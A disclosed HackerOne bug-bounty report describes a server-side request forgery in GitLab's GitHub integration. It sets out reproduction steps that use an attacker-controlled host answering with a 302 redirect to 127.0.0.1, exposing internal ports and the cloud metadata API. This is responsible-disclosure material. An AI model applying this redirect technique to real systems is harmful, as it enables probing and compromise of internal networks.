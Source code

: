 # GitLab's GitHub integration is vulnerable to SSRF vulnerability

## Report Details
- **Report ID**: 446593
- **URL**: https://hackerone.com/reports/446593
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-11-18T04:57:11.807Z
- **Disclosed**: 2019-08-30T22:18:43.233Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
The GitHub service is vulnerable to a SSRF vulnerability. An attacker may be able to leverage this to make arbitrary `POST` requests in a GitLab instance's internal network. It can also be used to connect to cloud provider's instance metadata API, which may result in the ability to execute commands on the machine.

# Proof of concept
In order to reproduce the SSRF, follow the steps below.

 - Sign in as any user
 - Create a new project
 - Add a `.gitlab-ci.yml` file with the following contents:

**.gitlab-ci.yml**
```yml
# This file is a template, and might need editing before it works on your project.
# see https://docs.gitlab.com/ce/ci/yaml/README.html for all available options

# you can delete this line if you're not using Docker
image: busybox:latest

before_script:
  - echo "Before script section"
  - echo "For example you might run an update here or install a build dependency"
  - echo "Or perhaps you might print out some debugging details"
   
after_script:
  - echo "After script section"
  - echo "For example you might do some cleanup here"
   
build1:
  stage: build
  script:
    - echo "Do your build here"
   
test1:
  stage: test
  script: 
    - echo "Do a test here"
    - echo "For example run a test suite"
   
test2:
  stage: test
  script: 
    - echo "Do another parallel test here"
    - echo "For example run a lint test"
   
deploy1:
  stage: deploy
  script:
    - echo "Do your deploy here"
```

 - Before a minute to make sure the pipelines are created based on the GitLab CI configuration file
 - Set up the GitHub integration and an external repository URL that is under your control (e.g. http://remote_ip/1/2)
 - Click the the `Test settings and save changes` button
 - Observe a request being made to the endpoint that looks something like this:

```
POST /api/v3/repos/1/2/statuses/5509244fe4919b85f5c1e0e1a2340805055c32d9 HTTP/1.1
Accept: application/vnd.github.v3+json
User-Agent: Octokit Ruby Gem 4.9.0
Content-Type: application/json
Authorization: token 1
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Connection: close
Host: remote_ip
Content-Length: 158

{"context":"ci/gitlab/master","description":"Pipeline passed on GitLab","target_url":"https://gitlab.com/jobertabma/123/pipelines/36992118","state":"success"}
```

 - respond with a 302 Found response that redirects back to the internal network using the `Location` header:

**Response**
```
HTTP/1.1 302 Found
Location: http://127.0.0.1/
Connection: Close
Content-Length: 0
```

 - Observe the response of `127.0.0.1` (port 80) being returned in the UI through the error message:

{F377195}

 - Or, port 8080:

{F377196}

 - Or, port 22:

{F377197}

## Impact

An attacker may be able to leverage this to make arbitrary `POST` requests in a GitLab instance's internal network. It can also be used to connect to cloud provider's instance metadata API, which may result in the ability to execute commands on the machine.

## Attachments
- Screen_Shot_2018-11-17_at_8.53.28_PM.png
- Screen_Shot_2018-11-17_at_8.54.27_PM.png
- Screen_Shot_2018-11-17_at_8.55.21_PM.png
